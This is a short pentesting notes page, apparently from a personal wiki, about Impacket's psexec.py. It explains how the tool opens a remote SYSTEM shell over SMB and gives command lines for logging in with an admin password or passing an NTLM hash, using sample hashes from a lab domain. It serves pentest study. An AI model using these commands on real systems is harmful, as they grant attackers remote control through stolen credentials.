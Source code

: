 ```yaml
---
title:  PsExec - a module from Impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - smb
---
```

# Impacket PsExec

The [PSExec service](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

## Installation 

Donwload from: [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) -

## Basic commands


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
impacket-psexec administrator:'<password>'@$ip

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Connect to a machine passing the hash
impacket-psexec $domain/$user@$ip -hashes $LM-authentication:$NTLM
# Example:
# impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

# If we only have the NTLM, then we can leave the $LM part in blank. Example:
impacket-psexec Administrator@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```